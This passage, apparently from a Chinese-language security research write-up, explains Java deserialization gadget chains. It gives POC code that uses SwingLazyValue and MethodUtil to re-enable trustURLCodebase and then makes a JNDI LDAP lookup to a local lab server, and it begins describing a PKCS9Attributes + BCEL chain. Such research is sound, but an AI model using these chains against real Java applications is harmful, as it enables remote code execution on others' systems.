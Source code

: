   `com.sun.jndi.cosnaming.object.trustURLCodebase = false`  

* JDK 6u211，7u201, 8u191, 11.0.1后

  `com.sun.jndi.ldap.object.trustURLCodebase = false` 

![image-20230621165952875](../.gitbook/assets/image-20230621165952875.png)

好巧不巧这个`java.lang.System#setProperty`就是个静态方法，可以用上面的`sun.reflect.misc.MethodUtil#invoke`去调用

稍微修改一下上面的POC

```java
Method setProperty = Class.forName("java.lang.System").getDeclaredMethod("setProperty", String.class, String.class);
SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{setProperty, new Object(), new Object[]{"com.sun.jndi.ldap.object.trustURLCodebase", "true"}}});  
```

开启`trustURLCodebase`之后就可以发起JNDI请求了。

```java
Method doLookup = Class.forName("javax.naming.InitialContext").getDeclaredMethod("doLookup", String.class);
SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{doLookup, new Object(), new Object[]{"ldap://127.0.0.1:8099/aaa"}}});
```

# 0x03 PKCS9Attributes + BCEL

和上面的`MimeTypeParameterList` + `MethodUtil`比较，这条链子就source和sink不同

* source 需要调用`HashTable#get`

`sun.security.pkcs.PKCS9Attributes#toString ` -> `PKCS9Attributes#getAttribute`
